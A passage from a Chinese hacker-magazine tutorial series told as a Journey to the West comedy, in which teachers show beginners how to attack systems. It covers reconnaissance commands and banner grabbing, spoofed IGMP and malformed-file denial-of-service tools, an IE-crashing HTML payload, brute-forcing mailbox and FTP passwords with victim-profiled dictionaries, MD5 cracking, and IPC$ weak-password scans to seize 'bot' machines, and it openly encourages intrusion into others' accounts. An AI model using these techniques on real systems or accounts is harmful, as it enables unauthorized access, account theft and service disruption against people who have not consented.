

黄校长

静静的菜鸟学堂里，八戒和沙僧他们都足足等了一个钟头了，可悟空还是没有露面，网上也到处都找不到。就当他们快要不耐烦的时候，只见满脸笑容的黄校长拿着悟空的笔记走了进来。虽说八戒他们只在菜鸟学堂开张的第一天见过黄校长，可也知道，眼前的这个黄校长与玉帝和如来的关系都是非同寻常的，更是天宫里的计算机安全顾问兼玉帝个人 blog 的主管。……

……“黄校长好。”八戒他们异口同声地说道。“同学们好。”看着学堂里唐僧他们这么有礼貌，黄校长也是非常满意。……黄校长回答道：“他今天来不了了。昨晚他入侵了玉帝的个人电脑……现在整个天宫已经乱作一团了，这么大的事儿，难道你们都不知道吗？”……

……知己知彼，百战不殆的道理！”刚说到这里，就听台下沙僧说道：“校长，校长，我来说两句。这些东西，我们不是使用 x-scan 这样的综合扫描工具就能得到吗？”黄校长看了看沙僧，露出了赞许的表情：“像 x-scan 这类的综合扫描工具确实可以检测到这些信息，但是，并不是所有的信息都可以被检测出来的。我们来看以下的几个命令。”

## 菜鸟学堂

#### 1. ping

这个命令的作用本来主要是用来测试与远程主机是否可以建立物理连接。不过，在目前这个防火墙横行的时代，其更大的作用则是用来通过远程主机的域名获得其 IP 地址。其使用格式为 **ping 域名或IP地址**，如图1。根据对方网站的域名 www.sagi.net.cn，我们成功地得到了对方的 IP 地址 61.152.251.212。另外，根据返回的 TTL 值，我们也可以简单地判断对方主机所使用的操作系统类型，TTL 值在 100-130 之间为 Windows 系统，而在 240-255 之间为 UNIX/Linux 系统。

```bash
C:\>ping www.sagi.net.cn

Pinging sagi.net.cn [61.152.251.212] with 32 bytes of data:
Reply from 61.152.251.212: bytes=32 time=317ms TTL=50
Reply from 61.152.251.212: bytes=32 time=312ms TTL=50
Reply from 61.152.251.212: bytes=32 time=311ms TTL=50
Reply from 61.152.251.212: bytes=32 time=310ms TTL=50

Ping statistics for 61.152.251.212:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 310ms, Maximum = 317ms, Average = 312ms
```

图1

```bash
C:\>ping -a www.whitehouse.net

Pinging ad.funnel.revenuedirectcon.akdns.net [66.150.161.56] with 32 bytes of data:
Reply from 66.150.161.56: bytes=32 time=750ms TTL=44
Reply from 66.150.161.56: bytes=32 time=630ms TTL=44
Reply from 66.150.161.56: bytes=32 time=658ms TTL=44
Reply from 66.150.161.56: bytes=32 time=797ms TTL=44

Ping statistics for 66.150.161.56:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 630ms, Maximum = 797ms, Average = 708ms
```

图2

这时，就听到八戒说道：“黄校长，不对呀，图1中的那些 TTL 值为50呀，那又是什么系统呢？”黄校长看了一下图1，说道：“其实，利用 TTL 值来判断操作系统类型是极不准确的，因为我们可以随时修改注册表来达到修改这个 TTL 值的目的，因此，这个值仅作参考。”

八戒他们这才恍然大悟。

“利用 ping 命令我们还可以得到对方计算机的名称，这个也是很有用的。命令格式是 **ping -a 域名或IP地址**，如图2；ad.funnel.revenuedirect.com.akadns.net 就是对方的计算机名，当然，也不是所有的主机都可以得到对方的计算机名的。”

#### 2. tracert

tracert 命令的作用主要是用来测试本机到远程主机间所经过的路由，命令格式为 **tracert -d 域名或IP地址**，如图3。

我们可以看出，我们本机到达 www.nasa.gov 主机一共经过了11个路由。这个命令对于追踪攻击者还是很有用的。

```text
C:\>tracert -d www.nasa.gov
Tracing route ...
(多跳路由结果)
Trace complete.
```


#### 3. finger

finger 命令可以连接远程开启了 finger 服务的主机（finger 服务默认使用的是79端口），并得到对方系统内合法的用户账号，其使用格式为 **finger username@IP**。

#### 4. telnet

telnet 命令的作用主要是进行远程登录，不过，对于攻击来说，这个命令更有效的一个作用则是根据远程主机的 banner 信息判断远程主机的操作系统类型及版本。如图4，对方的 banner 信息告诉了我们，它使用的是 RedHat Linux 系统，版本号是 6.1，并且 Linux 的内核版本号为 2.2.12-32smp。

```text
Red Hat Linux release 6.1 (Cartman)
Kernel 2.2.12-32smp ...
login:
```


其实，Windows 系统中也有 telnet 服务，不过，Windows 系统基本上是不开这个服务的，偶尔就算我们扫描到了几个，那也是系统被人入侵后攻击者留下的。因此，telnet 服务只是广泛地应用于 UNIX/Linux 系统中。

“那到底啥是 UNIX，啥是 Linux 呢？怎么悟空从来没有跟我们讲过呀？”唐僧问道。

黄校长解释道：“UNIX 是一种诞生于上世纪六七十年代的优秀网络操作系统。UNIX 诞生时，Windows 连影子还没有呢。时至今日，这种大型的操作系统仍然广泛地应用于 Internet 的大中型服务器上。UNIX 有众多的版本，比如伯克利大学的 BSD 系统以及免费的 FreeBSD 系统，SUN 公司的 SunOS/Solaris 系统，IBM 公司的 AIX 系统，SGI 公司的 IRIX 系统，惠普公司的 HP-UX 系统等等，当然它们遵循的标准都是一样的。而 Linux 是上世纪九十年代才诞生的一种类 UNIX 操作系统，其遵循的标准完全和 UNIX 一样。不过，与大型商业操作系统相比，Linux 是完全免费、共享的。Linux 也有众多的版本，比如 RedHat Linux、Debian GNU Linux、Mandrake Linux、Slackware Linux、SuSE Linux 等等。”

#### 5. ftp

ftp 命令的作用主要是登录到远程 FTP 主机，进行文件传输操作。对于攻击者来说，另一个主要作用就是可以获取远程 FTP 主机所使用的 FTP 组件类型及版本。命令格式为 **ftp 域名或IP地址**。根据返回的 banner 信息，我们可以得知对方 FTP 使用的是 wu-2.6.0<1>，这个版本的服务器可是存在远程溢出漏洞的哟。

```text
C:\>ftp 61.115.4.134
Connected ...
220 ... FTP server (Version wu-2.6.0<1>) ready.
```


再来看一下图6，返回的 banner 信息不但告诉了我们使用的是 capricorn FTP，甚至还告诉了我们对方所使用的操作系统是 SunOS 5.8。

```text
C:\>ftp 61.115.4.94
220 capricorn FTP server (SunOS 5.8) ready.
```


#### 6. nbtstat

这个命令的作用是获取远程 Windows 系统的计算机名、工作组名、MAC 地址等信息，使用格式为 **nbtstat -A IP地址**，如图7。

```text
C:\>nbtstat -A 192.168.0.1
(远程机器名表、状态、MAC Address 等)
```


#### 7. nslookup

这个命令的作用主要是查询节点名和 IP 地址的对应关系，使用格式为 **nslookup 结点名或IP地址**，如图8。

#### 8. rsh

这个命令的作用主要是可以在远程运行了 RSH 服务的主机上执行命令，命令格式为 **rsh IP地址 -l username command**。

图8

通常 RSH 服务使用的端口是 514。但要注意，并不是所有提供了 rsh 服务的主机，我们都可以任意地在上边来远程执行命令的。为了增加安全性，rsh 主机通常会有一个 `.rhosts` 文件作为用户的身份验证，该文件由两个部分组成，前边为允许的主机域名，后边为允许的用户名。例如：`www.sagi.net.cn sagi`，表示允许主机 `www.sagi.net.cn` 上的 sagi 用户远程访问自己。而不在此文件中的，则是不被允许远程登录的。这一特性，也被当作 UNIX/Linux 下的一个简单后门来使用。

黄校长抬头看了看时间，说道：“时间也不早了，这堂课我们就简单地介绍以上几个非常基础，而又非常实用的命令吧。”

就听八戒说道：“想不到这些命令居然还有这么多的作用呀。”

黄校长接着道：“要想成为一个真正的黑客，他就必须要细心，要能注意到这些细微的地方。当然，他更必须要掌握丰富的知识，否则，即使让他得到了这些信息，他也不知道哪个系统或是哪个服务存在漏洞，又是存在什么样的漏洞，自然也就更谈不上选择使用什么方法来进行攻击了。”

“好了，这节课我们就暂时上到这儿，我得赶快回到天宫去看热闹下！”说罢，也不顾沉默深思的唐僧他们，一下子就走得没影了。

随着意大利的夺冠，世界杯的热度渐渐消退；再没有熬夜看球、白天上班补睡眠，为支持球队的不同而争执不休，为看球而连闯红灯的疯狂景象了，一切似乎又回到原来的秩序。就连菜鸟学堂里消失月余的悟空老师也回到了讲台上。

“上个月由于本人的临时缺席，所以委托黄校长为俺顶上一节课，在这里首先向黄校长表示真诚的感谢。”悟空一脸轻松地说道，仿佛上个月没出什么事一样。

八戒则口无遮拦地问道：“猴哥，听说你被告了？罚了多少？有没有受皮肉之苦啊？”

唐僧和沙僧一听脸色大变，生怕悟空发怒，马上出来圆场……

“经常入侵的朋友可能会遇到这样的一些现象：溢出的时候经常会使对方的某个服务当掉甚至是机器重新启动；有时候公布漏洞的时候也会提示为 DoS 溢出漏洞，这些漏洞利用起来就只能使对方停止服务而不能拿到 shell 控制对方。不光是 Windows 系统会出这种拒绝服务漏洞，任何第三方软件，比如 Winamp、WinRAR、WORD 等都可能存在这些漏洞。”

#### 一、MS06-007 远程拒绝服务漏洞

还记得第 6 期杂志中，我们提到，如果目标机为 XP SP2 系统并使用防火墙阻拦了所有端口，我们就不能使用传统的 DoS 工具对其进行攻击了。可是这个漏洞的出现改变了这一状况，因为它使用的是 IGMP 协议数据包（IGMP 数据包不依赖于任何端口），只要目标没有打该补丁，我们就可以使用工具对其进行攻击，被攻击的表现为直接死机，只能按下机箱面板上的 Reset 重新启动。

工具的名字叫做 `windos.exe`，对 WindowsXP SP1/SP2 和 Windows2003 SP1 均有效，使用方法为：`windos.exe <目标IP> <源IP>`。例如，`windos 192.168.0.91 192.168.0.56`，伪装成 `192.168.0.56` 攻击 `192.168.0.91`。

图1

输完命令以后没有任何显示，而被攻击的机器已经动弹不得了。

使用金山网镖设置为“拦截 IGMP 攻击”（图2）后对目标机进行攻击依然奏效，限于条件没有测试其它的防火墙是否能够阻挡此种类型的攻击，建议大家还是到微软网站上下载该补丁进行安装吧。

……悟空说道：“所以我们就拿这个技术作为今天的课题吧。同样是拒绝服务，可是上一次课程我教大家的方法是需要不停地发送数据使对方无法承受而造成拒绝服务；但是还有一种方法，就是利用目标服务上的一些漏洞可以直接使对方死掉。”

悟空话音刚落，八戒就在自己的机器上输入唐僧的 IP 地址，敲下回车，结果出现了“Senderror: (10004)”，如图3。

看着八戒疑惑的脑袋，悟空耐心地解释道：“这是因为你使用的操作系统是 XP SP2。解决的办法是关闭系统自带的防火墙，并且在服务管理中将 Windows Firewall/Internet Connection Sharing（ICS）服务禁用即可。”如图4、图5。

#### 二、IE 浏览器拒绝服务漏洞

长期以来我们往往只关注那些能够下载并运行程序或者执行命令的 IE 漏洞，而实际上还有一种能使 IE 浏览器出错崩溃的漏洞。这种漏洞入侵的意义并不大，但是在特殊时刻用来整人也蛮好玩的。上次有个朋友和我说论坛被入侵了，于是我们上去整理看到了一些 ASP 木马，是入侵者留下的后门。我们看到后自然是一通乱删，删到最后一个木马时我们停下来了，决定要整整那个人侵者，于是我们将该木马的内容替换为以下代码：

```html
<html>
<script>
    var a = document.createElement('table');
    var b = document.createElement('frameset');
    a.appendChild(b);
</script>
</html>
```

结果入侵者没过多久就又来访问咱们的论坛了，他很奇怪地发现一访问他的“ASP shell”，IE 就自动关闭了，连续访问了几十次才肯罢休咱们论坛（通过事后观察 IIS 日志得知），把我们笑得半死。

#### 三、第三方软件拒绝服务漏洞

除了 IE 之外，还有很多程序也会在处理畸形文件时发生崩溃。这里我们随便拿几个小程序来测试一下。

##### 1. Winamp 畸形 MIDI 文件远程溢出漏洞

Winamp 是一款流行的媒体播放器，支持多种文件格式。Winamp 在播放 MIDI 音乐时会加载 in_midi.dll，此插件中存在缓冲区溢出漏洞。如果用户受骗打开了畸形的 MIDI（.mid）文件的话，就会导致 Winamp 崩溃或执行任意指令。测试方法如下：使用 `WinampBufferOverflow.exe 文件名.mid` 即可生成一个恶意 mid 文件，当使用 5.21 版本以下的 Winamp 打开它时，就会发现 Winamp 崩溃掉。

##### 2. 微软 Word 畸形文档拒绝服务漏洞

在 mso.dll（早期 WORD 版本中则为 mso9.dll）处理一些特定文件的非法内存访问时会引起缓冲区溢出。使用以下工具可以生成一个 Word 文件，攻击者可以使用网页或者 Email 等方式诱骗用户打开它，造成 Word 崩溃。mso.dll 在 Office 中也被其它文件所使用，因此同样的漏洞很可能也存在于 Office 的其它产品中。测试方法如下：运行 `wordPOC.exe` 就会在当前目录中生成 `wordPOC.doc` 文件，双击打开该 doc 文件 Word 就会崩溃，如图6、图7。

实际上最近爆出的存在该类漏洞的第三方软件还有许多，但利用方式都差不多，因此不再一一介绍。绝大多数的本地 DoS 漏洞经过研究和改动之后，又有可能变成本地提升权限或者是执行任意命令做成网马。例如 3 月份 IE 浏览器的 createTextRange 漏洞最初就是以 DoS 漏洞的形式出现的，后来经过人们研究就出现了可以执行任意命令的利用工具，只是注意到的人不多罢了。

图7

“你刚才提到的攻击路由器的工具呢？别说话不算话抵赖啊！”悟空回过头来，温柔地望着八戒：“路由器种类繁多，判断其类型不方便，漏洞出现虽多，可是网上流传公布的工具却很少，再加上相当多的攻击都是在 Linux/Unix 下进行的，对你们的基础来说还为时过早，因此我们暂时不提。”沙僧等人本来就对路由器并不甚熟悉，听到这个解释也就放过了悟空。

> （文章中涉及到的工具 MS06-007 远程拒绝服务工具、MS06-032 TCP/IP 远程拒绝服务工具、IE6 Table.Frameset NULL Dereference Vulnerability.html、Winamp 畸形 MIDI 文件漏洞利用工具、微软 Word 畸形文档拒绝服务漏洞利用工具已收录于光盘中）

## 菜鸟遗忘的绝招之

## 密码也疯狂

今年有两个“七夕”，悟空却一个女朋友也没有，这天正在办公室里闷闷不乐，忽然听见敲门声，心想一定是八戒他们又要缠着自己教技术了，遂懒洋洋地答道：“进来！”没想到门推开，进来的居然是王母娘娘。悟空忙站起来迎接，不仅精神抖擞还满面春风——一脸笑容：“王母娘娘仙福永享，寿与天齐！不知您临本学堂，有何贵干啊？”

王母娘娘一脸神秘地左右看看，确定周围没有任何牛鬼蛇神之后，把悟空拉到办公室的桌子后面耳语道：“孙大圣，我求你个事，你一定得帮我办好了！事成了今年两个七夕我就叫织女别去和牛郎约会了，把喜鹊桥直接架到花果山菜鸟学堂来，让你也享受一次浪漫的中国情人节。”一听这话，悟空高兴得都快忘了自己老爸姓什么了：“没问题没问题，只要我办得到，我一定尽力！”

王母娘娘看到悟空这样子，就知道自己的目的要达到了，于是从袖子里掏出一副扑克牌：“这上面都是曾经和玉帝传出过绯闻的女仙人，尽管表面上我在维护他的名誉，可是实际上我心里也不舒服，我希望你能帮我再入侵他的电脑一次，搜集到充分的证据，然后偷给我……”悟空听到这话大惊：“还来啊？这可不行，上次玉帝狠狠地警告过我，如果我再入侵他的机器他就叫如来把我压到五指山下 500 年不让我上网！”

王母娘娘胸有成竹地拍拍悟空的肩膀：“怕什么，这事包在我身上，我保管他不敢动你。你就放心帮吧！”于是悟空打开一个记事本找出玉帝的邮箱密码，登录上去打开一个“情书”文件夹，圆满地完成了王母娘娘交待的任务。没想到一阵白烟散开，王母娘娘变成了八戒：“猴哥，太佩服你了，你怎么会有玉帝的邮箱密码啊？”

悟空刚还兴高采烈地以为有 MM 陪自己过七夕情人节了，忽然间看到八戒的嘴脸，瞬间心情跌落到谷底，没好气道：“不就是个密码嘛？这都不会？”八戒满脸堆笑：“猴哥别生气嘛！虽然织女姐姐我是没能力请来，不过 PLMM 我老猪还是认识不少的，你也知道，我嘴巴比你甜，QQ 上认识的 MM 自然比你多了……”悟空听到这话非常满意，于是喝了口绿茶清清喉咙开始讲课：“其实在很多时候，教了大家各种各样的技术的最终目的都只有一个，那就是获得对方的管理密码！”

“举个例子来说吧，我们使用 SQL 注入漏洞，目标往往是获得对方的网站后台密码；而使用默认数据库下载的方法，也是为了找到对方的密码；嗅探是为了对方的密码，扫描弱口令，也是为了找到使用简单密码的机器。既然如此，为什么我们不从一开始就直接去猜解对方的密码呢？”悟空讲到这里故意卖了个关子停了下来，八戒配合地问道：“那怎么猜呢？”“我们可以使用扫描工具，填入玉帝的邮箱用户名；然后让工具根据指定的密码字典去一个一个地猜。我这里就用前不久发布的流光5正式版做个演示。”

#### 一、163 邮箱密码的破解

首先安装好流光，双击打开后界面如图1。因为 163 支持 POP/SMTP 收发信件，因此我们在左上角的“目标主机”里勾选上“POP3主机”。然后在“POP3主机”上单击右键，选择“编辑”“添加”，在弹出的对话框中填入 163 的 pop 服务器，这里是 `pop.163.com`，如图2、图3。

图1

这时 POP3 主机下就多了一个名字为 `pop.163.com` 的目标主机，在它上面点右键，还是选择“编辑”“添加”，再写入欲破解的邮箱用户名。这里我用自己的 zhiyeqianqian 来演示，填写好以后如图4。

FTP 密码的破解和上面的操作基本上完全相同，就是把“POP3主机”处改成“FTP主机”就可以了。

#### 二、字典的制作

由上面的例子我们很容易看到，这样的破解无非就是需要一个强大的字典和足够的时间。时间我们可以等，字典就需要自己制作了。大家想想，如果在制作字典之前，先对目标人物进行详细的调查，了解他的生日、电话号码、姓名的拼音、偏爱的数字、单词，把这些因素组合起来制作出来的密码字典成功率肯定要高很多。

不光是密码需制作字典，很多时候我们连对方的 FTP 用户名都不一定知道。比如要入侵 `www.xxx.com` 的时候我们已经施展了所有的本领却没有突破点，尝试破解其 FTP 密码也未免不是一种可行的思路，可是对方的 FTP 用户名又是什么呢？这个时候根据管理员的论坛 ID，或者是域名，我们也可以制作出一个用户名名字典让扫描工具来帮我们探测。

假如有一天，由于太长时间没有登录我的 FTP 空间，我忘记了 FTP 密码了，但是依稀记得当初设置密码时的一点点印象：为了避免 FTP 密码太过简单，我使用了字母加数字的组合，没有使用到特殊符号。我的密码有 7 位，而且前三位是字母；第四位到第七位是数字。而该死的服务器管理员又联系不上，只好自己制作一个字典来暴力破解。

在“解码字典或方案”处右键，“编辑”“添加”，选择流光安装目录下的 `password.dic`（也就是自带的一个密码字典）或者自己制作的字典文件后如图5、图6。

在此先介绍以下步骤：“工具”/“字典工具”/“黑客字典III流光版”，进入字典设置界面，如图9。

在这里，我们选择 3 位字母、4 位数字，转到“文件存放位置”选项卡，单击“浏览”找个目录存放字典文件，这里我随便起个文件名叫“密码.dic”，如图10、图11。

接下来转到“高级选项”里，选中“选用高级选项生成字典”，上面的“字母位置”等选项就会变为可用状态，我们在“字母位置”处选择 1-3，在“数字位置”处选择 4-7，如图12。这里会提示预计长度，也就是预算好生成的字典文件的大小，同时还有当前目录的可用空间大小供大家对比。

单击“探测”，选择“标准模式探测”或者直接按下 Ctrl+F8，就开始猜测了，如图7。如果运气好对方的密码比较简单的话，还能看到如图8的界面。

赶紧点击“再等一会”，更换一个剩余空间比较大的分区吧。否则，单击“开始”就能生成大家需要的字典了，如图13。

若是生成好的字典供大家参考和使用。

#### 三、几种常见的加密与解密

所谓的加密，是指把一段密码通过某种形式的变形后，转换成一堆表面上看不出来原文的数据存放。大家可以理解为是数学上的一个函数 y=f(x)，把密码的明文 x 通过 f(x) 的运算后变成 y，把 y 保存下来。比如 MD5 加密方式（相当于 f(x)）把密码 123456（相当于 x）计算后，得到 49BA59ABBE56E057（相当于 y）保存到数据库里。这样当别人得到我们的数据库后，并不能一眼看出我们的密码是多少。

图10  
图11  
图12  
图13

生成好字典后大家不要吃惊，几百M甚至上G都是正常的，找台稳定点的肉鸡没事挂上一个星期，基本上能跑完，不过能不能跑出对方的真正密码来，这要看你的人品和对方的密码强度了。对方要是设置一个数字加大小写字母混合特殊符号的，我们想靠这种方式破解估计得等到下个世纪咯。鉴于字典的配置大小差异，我收集了很多字典生成工具或……

图14

为了能够得到密码，我们可以在本地通过暴力的方式把可能是密码的明文加密后与 y 进行匹配，匹配成功则表示找到明文密码。这就是大家常用的 MD5 Crack 的原理。不过现在更流行的是网络破解，比如 http://www.cmd5.com ；他们把常见的密码都加密后存储在数据库中，我们只需要登录上去把欲查询的散列输进去查询即可，如图14。

图15  
图16

与此类似的，WORD 文档的加密曾经也被认为是只能暴力破解的，现在有了 WordPasswordRecoveryMaster，我们同样可以通过在线破解的方式瞬间解决掉它。首先新建一个文档，在“工具”“选项”“安全性”中设置一个打开密码，保存退出后打开它看看，是不是跟我们要密码了？不怕它，运行 `WPLoader.exe`，把这个 DOC 文档加载进来，单击“remove”按钮，会弹出个对话框提示该程序需要访问网络（如果安装了防火墙请选择允许访问网络），如图15、图16。

只要我们所设的密码不是太 BT 的话，很快就会在同级目录下生成一个 DEMO 文件，打开它看看，完全没有限制了吧（我测试过十几位的字母加密码和 5 位的纯汉字都在几秒钟内就搞定了。当然，也有一些超级变态的密码没被破解出来的，所以建议大家测试的时候拿不重要的文件进行测试）！

八戒听到这里，制作了一个用户名名字典，和一个非常简单的密码字典，然后填入 sohu 的邮箱地址 `pop.sohu.com` 开始扫描，发现居然检测出了不少的邮箱账号，觉得非常开心。然后再玩了玩 WORD 文档的加密解密，忽然转过头来说：“好玩，确实好玩！不过猴哥，今天毕竟是七夕啊，我一会还约了好几个网友 MM 见面呢，要不你也先下课回去打扮打扮，我带你一起和 MM 吃饭过节去？”

> 悟空一听心下大喜，表面上却装作不动声色：“我还有好多精彩的内容没有讲完呢，像论坛密码的破解，系统的密码破解，3389 密码的破解和通过弱口令直接获得肉鸡等等。不过说实话俺肚子也饿了，这些内容就留到下一节课吧！对了，上次你在淘宝上买的古龙香水借我用一下，不管怎么说也是要去见 MM 的，得注意点形象啊！”

（文章中涉及到的流光5正式版、黑客字典集合包、WordPasswordRecoveryMaster 已收录到光盘中）

### 菜鸟演技的绝招之：密码也疯狂（续）



9月的最后一天，还没打上课铃，菜鸟学堂教室里却早已刷刷刷坐满了人。这里不光有八戒、沙僧、唐僧这些老面孔，还有菜鸟学堂一年多来的超级跑客观音姐姐、白龙马、玉帝哥哥、王母娘娘，甚至连戴校长和财务总监海过一粒沙也坐到了后排，一脸忧愁地等待着悟空老师的到来——因为这可能就是悟空给大家上的最后一节课了。

上课铃响起，悟空缓缓走进教室。看着台下沉默的学生，悟空自己心里也万分不舍：“大家好，新一堂菜鸟学堂的到来，我将兑现上一节课遗留下的几个承诺，教大家几种密码的扫描和破解。这样一来，在十一黄金周里，趁网管放假休息之时，大家也可以多多抓鸡。同时，我也要向大家宣布我辞职的消息。”

说到这里，悟空顿了一顿，期待着台下有点反应。可惜大家早就从沙子那得到过消息，做足了心理准备，因此没有人意外。悟空尴尬地继续解释：“事实上，辞职的原因是多方面的。自从我升职为教务处主任负责更多的工作后，每个月对菜鸟学堂的教学任务我已经不能很好地完成了。为了对菜鸟负责，我们安心给菜鸟学堂注入新鲜血液，向社会各界抛撒优秀教师。而一年多一直认真在菜鸟学堂里学习的菜鸟们，我向你们正式宣布，今天起你们将获得花果山颁发的、国家承认学历的‘菜鸟学士学位证书’！”

台下终于有欢呼声了，只有八戒两眼汪汪地看着悟空，委屈地说道：“猴哥，猴哥，你别走啊，我的英语四级还没过，能不能让我也毕业啊……”

“好了，现在开始上课。在上一节课中，我们介绍了密码攻击的一个小知识：如何制作字典。同时以大名鼎鼎的流光5正式版为工具，给大家演示了如何使用它破解163邮箱的密码。但是据读者反映，有时候明明将自己的密码写到字典里，在破解的时候也会发生流光跑不出密码的情况。后来经测试，这是工具不够稳定的原因，流光有时候会漏掉字典最后几个密码，把真实密码错过了，字典前面一会儿就猜出来了。”

好学的沙僧在毕业前还不忘做笔记，迅速地把这一特殊情况抄到了笔记本里。悟空又接着往下说：“密码是现在最流行、最常用的身份验证方式，可是它的验证也是脆弱的。如果我知道了对方的QQ，我就可以用对方的QQ来骗人；如果知道了对方的FTP账号，我就可以登录到对方的空间上任意上传下载文件；要是知道了服务器的3389账号，自然可以名正言顺地登录到服务器上远程控制服务器了。所以，如果我们把目标放在可以获取对方控制权限的密码破解上，一旦成功，对方就成为我们的肉鸡了。”

#### 一、远程密码破解

- 1. 长盛不衰的经典 IPC 口令扫描

在2003年前，IPC$弱口令扫描入侵是最流行的攻击方法了。当时大家的安全意识普遍不高，给电脑设密码的时候往往随便应付一下，比如123456，或者是直接把用户名作为密码，甚至不设密码的也比比皆是。在这里要简单讲一下什么是IPC（Internet Process Connection），它是微软的一种共享机制，学名“共享命名管道的资源”，本意是为了方便管理员远程管理和查看计算机共享资源的。IPC允许管理员通过输入用户名和密码验证身份并获得一定的权限，本来是挺安全的，可是问题发生在人们不安全的设置密码上。尤其是Windows 2000和Windows 2003系统，一旦对方获得了管理员用户名和密码，而你又恰恰打开了IPC共享（事实上不需要你打开，系统默认就是开着的），那别人就可以“帮”你管理计算机了。

其实对IPC弱口令扫描工具网上有很多，上期介绍的流光也自带这个功能。这里我用“啊D工具包V2.1”给大家做个简单的演示吧。打开“啊D”，选择“工具”→“肉鸡查找”，如图1。



图1

